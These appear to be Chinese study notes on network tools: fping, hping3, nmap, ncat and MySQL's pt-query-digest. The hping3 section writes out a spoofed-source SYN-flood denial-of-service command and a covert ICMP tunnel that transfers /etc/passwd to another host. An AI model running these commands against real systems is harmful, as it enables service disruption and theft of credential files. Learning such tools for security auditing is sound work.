 [(网络学习)5、iptables防火墙与网络攻击](https://segmentfault.com/a/1190000021427869)
====

1、a.fping：批量ping主机
----
fping类似于ping。
```markdown
fping -a[--alive] -f[ --file FILE] -g[--generate生成字符串、域列表]
-a：只显示存活主机；
-u：只显示不存活主机；
-l：循环ping
-g：通过指定起始地址与终止地址产生目标列表
fping -a -g 192.168.1.0/16
```
2、hping：高级tcp探测
----
hping是安全审计、防火墙测试等工作的标配工具。中文说明参考：[hping3 工具说明](https://blog.csdn.net/kernel_1984/article/details/88632230)
```markdown
hping3 host [options]
-p: 端口
-S: 设置tcp模式的syn包
-a: 伪造ip地址
-V  --verbose   详细模式
```
拒绝服务攻击
```markdown
使用Hping3可以很方便构建拒绝服务攻击。比如对目标机发起大量SYN连接，伪造源地址为192.168.10.99，并使用1000微秒的间隔发送各个SYN包。

hping3 -I eth0 -a192.168.10.99 -S 192.168.10.33 -p 80 -i u1000
```
文件传输
```markdown
Hping3支持通过TCP/UDP/ICMP等包来进行文件传输。相当于借助TCP/UDP/ICMP包建立隐秘隧道通讯。实现方式是开启监听端口，对检测到的签名（签名为用户指定的字符串）的内容进行相应的解析。在接收端开启服务：

hping3 192.168.1.159--listen signature --safe --icmp

监听ICMP包中的签名，根据签名解析出文件内容。 在发送端使用签名打包的ICMP包发送文件：

hping3 192.168.1.108--icmp ?d 100 --sign signature --file /etc/passwd
将/etc/passwd密码文件通过ICMP包传给192.168.10.44主机。发送包大小为100字节（-d 100），发送签名为signature(-sign signature)。
```

3、批量主机扫描: nmap、ncat
----
```markdown
nmap -sP 192.168.1.0/24 //扫描存活
-P          icmp扫描            快速有效
-sS         tcp.syn半扫描       高效，不易检测
-sT         tcp扫描             真实，可靠
-sU         udp扫描             有效透过防火墙

nc -vz -w2 192.168.1.112 10-100 //10-100的端口
-w          超时时间
-z          输入输出模式
-v          显示执行过程
-u/t        udp/tcp
```
4、pt-query-digest: MySQL慢查询分析工具
----
[MySQL慢查询分析工具pt-query-digest详解](https://blog.csdn.net/xiaoweite1/article/details/80299754)
```markdown
4.各工具用法简介（详细内容：https://www.percona.com/doc/percona-toolkit/2.2/index.html）
(1)慢查询日志分析统计
pt-query-digest /usr/local/mysql/data/slow.log
(2)服务器摘要
pt-summary 
(3)服务器磁盘监测
pt-diskstats 
(4)mysql服务状态摘要
pt-mysql-summary -- --user=root --password=root 
```
由于pt工具使用需要本地 sql.log 文件的读取，所以要对不同容器的日志文件进行映射测试。


```markdown
fping -a[--alive] -f[ --file FILE] -g[--generate生成字符串、域列表]
fping -a -g 192.168.1.0/16
```
